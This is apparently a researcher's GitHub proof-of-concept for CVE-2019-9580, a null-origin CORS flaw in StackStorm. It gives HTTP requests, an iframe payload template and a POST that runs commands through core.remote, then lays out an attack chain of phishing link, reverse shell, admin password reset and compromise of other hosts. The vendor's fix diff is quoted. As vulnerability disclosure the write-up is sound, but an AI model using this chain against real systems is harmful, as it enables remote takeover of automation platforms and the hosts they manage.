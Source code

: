 # CVE-2019-9580 - StackStorm exploiting CORS null origin to gain RCE < 2.9.3 and 2.10.3

> Prior to 2.10.3/2.9.3, if the origin of the request was unknown, we would return null.  null can result in a successful request from an unknown origin in some clients. Allowing the possibility of XSS style attacks against the StackStorm API.

found by [Barak Tawily](https://github.com/Quitten) and [Anna Tsibulskaya](https://github.com/anna-wix)

![Peek 13-03-2019 17-16](https://user-images.githubusercontent.com/5891788/54295917-39f07300-45b4-11e9-8387-63ed2b64878e.gif)
_(user on Firefox is the victim, user on Chrome is the attacker)_

### Proof of Concept


#### Exploiting null CORS
By sending a request to the StackStorm API with an null Origin header `Origin: null`, the server responds with an `Access-Control-Allow-Origin` to `null`.

```
GET /api/v1/executions?action=packs.get_config&limit=5&exclude_attributes=trigger_instance&parent=null HTTP/1.1
Host: localhost:4443
Origin: 443
Referer: https://localhost:4443/
x-auth-token: a19e39b9dff24e4798ba04c7036d0275
```

Server response:
```
Access-Control-Allow-Origin: null <-- hug hug hug
Access-Control-Allow-Methods: GET,POST,PUT,DELETE,OPTIONS
Access-Control-Allow-Headers: Content-Type,Authorization,X-Auth-Token,St2-Api-Key,X-Request-ID
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Type,X-Limit,X-Total-Count,X-Request-ID
```

Exploiting null CORS is documented on a [blogpost from portswigger](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties) and we can found the following payload:
```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src='data:text/html,
<script>

*inject your malicous code*

</script>’></iframe>
```

#### But what about the RCE ?

StackStorm allows you to configure **actions** and some of them like `core.remote` execute arbitrary command on the host of your choice.

![image](https://user-images.githubusercontent.com/5891788/54306352-7aa6b700-45c9-11e9-988c-726b150c9303.png)

So if we put host **127.0.0.1**, we will execute command on the StackStorm docker. Nice, RCE should be OK since a simple POST request is send to register an **action**.

```
POST /api/v1/executions HTTP/1.1
Host: localhost:4443
Origin: null
Content-Type: application/json
x-auth-token: a19e39b9dff24e4798ba04c7036d0275
Content-Length: 131

{"action":"core.remote","parameters":{"cmd":"touch /tmp/pwn2.txt","hosts":"127.0.0.1","cwd":"/tmp"},"context":{"trace_context":{}}}
```

#### What next ?

We can execute command on the host of StackStorm okay, but let's gain full control over StackStorm plateform. This can be down by reseting the password of the administrator. Using the documention:

> Need to change the password? Run: sudo htpasswd /etc/st2/htpasswd st2admin.
https://docs.stackstorm.com/authentication.html

Nice, let's just put all together :
1. Send a link to the victim with malicous payload that register a new **action** on the host 127.0.0.1 to exec an arbirary command
2. The victim clicks on the link and view the pony
3. Since CORS is null when a request is sent with header `Origin: null`, the POST request to register the new action is working (we also set the parameter `credentials: "include"`)
4. The action is trigger and command executed (reverse shell)
5. Attacker resets the password of the administrator and gain full control over StackStorm platform
6. Attacker can corrupt all the other host registered into StackStorm

![capture d'écran_1](https://user-images.githubusercontent.com/5891788/54295923-3d83fa00-45b4-11e9-82c5-faec2d5b2456.png)

**Security Advisory**: 
- https://stackstorm.com/2019/03/08/stackstorm-2-9-3-2-10-3/
- https://github.com/StackStorm/st2/pull/4577/commits/66605b7b202b8bd2db1ccd8c1ce7279028ac86d4

```diff
From 66605b7b202b8bd2db1ccd8c1ce7279028ac86d4 Mon Sep 17 00:00:00 2001
From: bigmstone <matthew99@gmail.com>
Date: Tue, 5 Mar 2019 12:22:26 -0600
Subject: [PATCH] Fix improper CORS return

Prior to this commit if you sent a request from an origin not listed in
`allowed_origins` we would respond with `null` for the
`Access-Control-Allow-Origin` header. Per
[https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin#Directives](mozilla's documentation)
null should not be used as some clients will allow the request to go
through. This commit returns the first of our allowed origins if the
requesting origin is not a supported origin.
---
 st2api/tests/unit/controllers/v1/test_base.py | 4 ++--
 st2common/st2common/middleware/cors.py        | 2 +-
 2 files changed, 3 insertions(+), 3 deletions(-)

diff --git a/st2api/tests/unit/controllers/v1/test_base.py b/st2api/tests/unit/controllers/v1/test_base.py
index 2a753f22ea..e66148a0a5 100644
--- a/st2api/tests/unit/controllers/v1/test_base.py
+++ b/st2api/tests/unit/controllers/v1/test_base.py
@@ -51,8 +51,8 @@ def test_wrong_origin(self):
             'origin': 'http://xss'
         })
         self.assertEqual(response.status_int, 200)
-        self.assertEqual(response.headers['Access-Control-Allow-Origin'],
-                         'null')
+        self.assertEqual(response.headers.get('Access-Control-Allow-Origin'),
+                        'http://127.0.0.1:3000')
 
     def test_wildcard_origin(self):
         try:
diff --git a/st2common/st2common/middleware/cors.py b/st2common/st2common/middleware/cors.py
index 5781b1a6e7..8cb407b52c 100644
--- a/st2common/st2common/middleware/cors.py
+++ b/st2common/st2common/middleware/cors.py
@@ -66,7 +66,7 @@ def custom_start_response(status, headers, exc_info=None):
                     origin_allowed = origin
                 else:
                     # See http://www.w3.org/TR/cors/#access-control-allow-origin-response-header
-                    origin_allowed = origin if origin in origins else 'null'
+                    origin_allowed = origin if origin in origins else list(origins)[0]
             else:
                 origin_allowed = list(origins)[0]
```

### Ressources:

* https://stackstorm.com/2019/03/08/stackstorm-2-9-3-2-10-3/
* https://quitten.github.io/StackStorm/

